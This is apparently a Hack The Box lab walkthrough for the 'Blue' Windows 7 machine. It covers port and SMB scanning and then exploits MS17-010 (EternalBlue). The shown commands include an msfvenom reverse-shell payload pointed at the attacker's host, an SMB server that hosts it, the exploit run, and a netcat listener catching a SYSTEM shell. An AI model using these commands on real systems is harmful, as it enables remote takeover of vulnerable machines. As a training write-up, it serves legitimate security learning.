 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.40 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 135,139,445,49152,49153,49154,49155,49156,49157

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.40 -p135,139,445,49152,49153,49154,49155,49156,49157
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:11 +07
Nmap scan report for 10.10.10.40
Host is up (0.27s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -5m56s, deviation: 34m36s, median: 14m02s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-05T05:26:21+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-05T04:26:20
|_  start_date: 2021-04-05T04:23:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.31 seconds
```

### Server Message Block

```
┌──(Hades㉿10.10.14.5)-[2.7:14.3]~/scripting
└─$ sudo nmap --script smb-vul* 10.10.10.40 -p 139,445
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:15 +07
Nmap scan report for 10.10.10.40
Host is up (0.28s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 16.97 seconds
```

Enum using `smbmap` without add user guest, I have nothing.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
```

Adding user guest to tools, it's work now.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40 -u guest
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

## Foothold

### EternalBlue

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/blue)

I drop an exploit `cmd.py` at [Legacy box](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy). Copy and run it for Blue.

Create shell.exe file to open reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 EXITFUNC=thread -f exe > shell.exe
```

Open smb server in kali at folder contain file `shell.exe`.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.3]~
└─$ sudo smbserver.py public /home/kali/walkthrough/hackthebox/blue > /dev/null
```

Execute payload after modify the `USERNAME = 'guest'`. 

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~/walkthrough/hackthebox/blue
└─$ sudo python cmd.py 10.10.10.40 '\\10.10.14.5\public\shell.exe' > /dev/null
```

Reverse shell at listener.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.4]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```